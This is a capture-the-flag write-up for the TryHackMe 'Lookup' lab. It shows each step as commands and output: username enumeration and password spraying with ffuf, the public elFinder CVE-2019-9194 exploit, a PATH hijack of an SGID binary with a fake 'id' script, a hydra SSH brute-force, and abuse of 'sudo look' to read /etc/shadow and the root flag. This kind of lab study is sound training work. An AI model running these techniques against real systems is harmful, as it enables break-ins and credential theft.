






<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Easy, **IP:** lookup.thm

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Login form leaks valid usernames via response-size differences → `admin`, `jose`. Password-spray `rockyou` → `jose`'s password.
2. `jose` redirects to `files.lookup.thm` running **elFinder 2.1.47** → **CVE-2019-9194** command injection ([EDB 46481](https://www.exploit-db.com/exploits/46481)) → shell as `www-data`.
3. SGID binary **`pwm`** runs `id` from `$PATH` and prints `/home/think/.passwords`. Hijack `id` with a fake one returning `think` → dump the password list → `hydra` SSH brute → **think**.
4. `think` may `sudo /usr/bin/look` → [GTFOBins look](https://gtfobins.github.io/gtfobins/look/#sudo) to read `/etc/shadow` and `/root/root.txt`.

</div>

---

## Full Walkthrough

### Nmap Scan

```bash
Host is up, received user-set (0.086s latency).
Scanned at 2025-05-19 18:33:42 EDT for 518s
Not shown: 58898 closed tcp ports (conn-refused), 6635 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-headers: 
|   Date: Mon, 19 May 2025 22:42:19 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Location: http://lookup.thm
|   Content-Length: 0
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: GET)
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

The site resolved to a fairly bare-bones login page, nothing beyond a username and password field, so before guessing at credentials outright I wanted to know which usernames were even valid to begin with. My plan was to fuzz the login form with `ffuf`, holding the password constant and watching for a response size that broke away from the rest of the noise.


```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d "username=FUZZ&password=admin" -H "Content-Type: application/x-www-form-urlencoded" -u http://lookup.thm/login.php -c  --fs 74
```



```
admin
jose
```

### Logging into website

With two valid usernames in hand, `admin` and `jose`, credential spraying was the obvious next move. Rather than burn attempts against the account most likely to be monitored, I focused on `jose` and threw the classic `rockyou` wordlist at the login form, again watching for a response size anomaly to flag the correct password:

```bash
 ffuf -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -d "username=jose&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://lookup.thm/login.php -c   --fs 62 
```



That turned up a working password for `jose`, and logging in redirected me straight to a subdomain I hadn't encountered yet, `files.lookup.thm`. That subdomain turned out to be a file hosting application built on `ElFinder`, and running software with a recognizable name and no custom branding on top of it is usually the fastest route to a public exploit, so I went straight to checking its version against known vulnerabilities.



```bash
└─[$] searchsploit -m php/webapps/46481.py                                                                         [19:32:16]
  Exploit: elFinder 2.1.47 - 'PHP connector' Command Injection
      URL: https://www.exploit-db.com/exploits/46481
     Path: /opt/exploitdb/exploits/php/webapps/46481.py
    Codes: CVE-2019-9194
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/anarchy/thm/boxes/Lookup/46481.py
```



The 2019 command injection in elFinder's PHP connector, CVE-2019-9194, matched the version running here, and firing the public exploit against it dropped me straight into a shell as `www-data`.

#### Enumerating the system

With a foothold established, I ran `linpeas` to speed up enumeration rather than manually chasing every possible privesc vector by hand, and one result stood out immediately from the rest of the noise: an SGID binary named `pwm`. Running it produced output that told me exactly what it was doing under the hood.



`pwm` appeared to read a `.passwords` file sitting in the home directory of a user called `think`, and it decided which user's password list to display by shelling out to the `id` command rather than checking the real caller's UID directly. That's a classic `$PATH` hijack waiting to happen: if I could get my own `id` executed in place of the system one, I could convince `pwm` to hand me `think`'s password list regardless of who I actually was. So I wrote a fake `id` that simply echoed back a UID belonging to `think`:

```bash
#!/bin/bash

echo "uid=33(think) gid=33(think) groups=33(think)"
```

With that script saved as `id` and made executable, the next step was making sure the shell would find my version before the real one on disk, so I checked the current `$PATH` and prepended a writable directory, `/tmp`, ahead of everything else:

```bash
(remote) www-data@lookup:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin
(remote) www-data@lookup:/tmp$ export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin"
```

With `/tmp` now first in the search path, running `pwm` again meant it would call my fake `id` instead of `/usr/bin/id`, and it worked exactly as I'd hoped:

```bash
(remote) www-data@lookup:/tmp$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```

That gave me a sizeable candidate password list tailored specifically to `think`, so rather than trying each entry by hand, I saved the list and pointed `hydra` at SSH to brute-force the account.

```bash
hydra -l think -P passwords.lst ssh://lookup.thm -I
```



#### Privesc to root

Once I had a shell as `think`, checking `sudo -l` is second nature before trying anything more involved, and it paid off immediately: `think` could run `/usr/bin/look` as any user. `look` is a well-known entry in GTFOBins precisely because of how it behaves when it can't find its default dictionary file at `/usr/share/dict/words`: rather than failing closed, it happily opens whatever file gets passed to it next and prints the contents. Setting `LFILE` to a target path and passing an empty search term as the first argument was enough to turn a whitelisted `sudo` binary into an arbitrary file read as root, letting me pull the entire `/etc/shadow` file, root's hash included:

```bash
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
think@lookup:~$ josemario.AKA(think)^C
think@lookup:~$ LFILE=/etc/shadow
think@lookup:~$ sudo look $LFILE
look: /usr/share/dict/words: No such file or directory
think@lookup:~$ echo $LFILE
/etc/shadow
think@lookup:~$ sudo look '' "$LFILE"
root:$6$2Let6rRsGjyY5Nym$Z9P/fbmQG/EnCtlx9U5l78.bQYu8ZRwG9rgKqurGHHLpMWIXd01lUsj42ifJHHkBlwodtvi1C2Vor8Hwbu6sU1:19855:0:99999:7:::
daemon:*:19046:0:99999:7:::
bin:*:19046:0:99999:7:::
sys:*:19046:0:99999:7:::
sync:*:19046:0:99999:7:::
games:*:19046:0:99999:7:::
man:*:19046:0:99999:7:::
lp:*:19046:0:99999:7:::
mail:*:19046:0:99999:7:::
news:*:19046:0:99999:7:::
uucp:*:19046:0:99999:7:::
proxy:*:19046:0:99999:7:::
www-data:*:19046:0:99999:7:::
backup:*:19046:0:99999:7:::
list:*:19046:0:99999:7:::
irc:*:19046:0:99999:7:::
gnats:*:19046:0:99999:7:::
nobody:*:19046:0:99999:7:::
systemd-network:*:19046:0:99999:7:::
systemd-resolve:*:19046:0:99999:7:::
systemd-timesync:*:19046:0:99999:7:::
messagebus:*:19046:0:99999:7:::
syslog:*:19046:0:99999:7:::
_apt:*:19046:0:99999:7:::
tss:*:19046:0:99999:7:::
uuidd:*:19046:0:99999:7:::
tcpdump:*:19046:0:99999:7:::
landscape:*:19046:0:99999:7:::
pollinate:*:19046:0:99999:7:::
usbmux:*:19510:0:99999:7:::
sshd:*:19510:0:99999:7:::
systemd-coredump:!!:19510::::::
lxd:!:19510::::::
think:$6$Cqt14LKfnwO1hA/a$c/g4M9yiP1KGJtbiOS4zubpw2.sm4bPfCglqddPpUS615xwwsU4eg1q.nr6UDLppea8AlmJ5fQUUewLICNU371:19568:0:99999:7:::
fwupd-refresh:*:19510:0:99999:7:::
mysql:!:19568:0:99999:7:::
```

With the technique confirmed against `/etc/shadow`, reading the actual flag was just a matter of pointing `LFILE` somewhere more useful:

```bash
think@lookup:~$ LFILE=/root/root.txt
think@lookup:~$ sudo look '' "$LFILE"
5a285a9f257e45c68bb6c9f9f57d18e8
think@lookup:~$ 
```
